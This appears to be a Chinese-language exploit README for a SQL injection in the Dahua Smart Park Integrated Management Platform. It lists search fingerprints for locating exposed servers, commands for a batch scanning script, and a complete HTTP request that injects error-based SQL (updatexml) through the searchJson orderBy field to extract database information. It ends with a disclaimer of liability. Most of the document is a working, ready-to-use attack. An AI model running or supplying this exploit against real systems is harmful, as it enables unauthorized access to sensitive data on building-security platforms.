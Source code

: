# 大华智慧园区综合管理平台searchJson SQL注入

大华智慧园区综合管理平台系统存在sql注入漏洞，可获取系统敏感信息。

## 指纹

body="/WPMS/"||title="智慧园区综合管理平台"||body="/WPMS/asset/img/black/QR-code-V4.003-owner.png"||body="/WPMS/asset/img/black/zhyq.png"


## 工具利用

python3 searchJson_sqlscan.py -u http://127.0.0.1:1111 单个url测试

python3 searchJson_sqlscan.py -f url.txt 批量检测

扫描结束后会在当前目录生成vuln.txt记录存在漏洞的url
![](./poc.jpg)


## exp

```
GET /portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20@@version),0x7e),1)--%22%7D/extend/%7B%7D HTTP/1.1
Host: 127.0.0.1:8009
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.2333.119 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
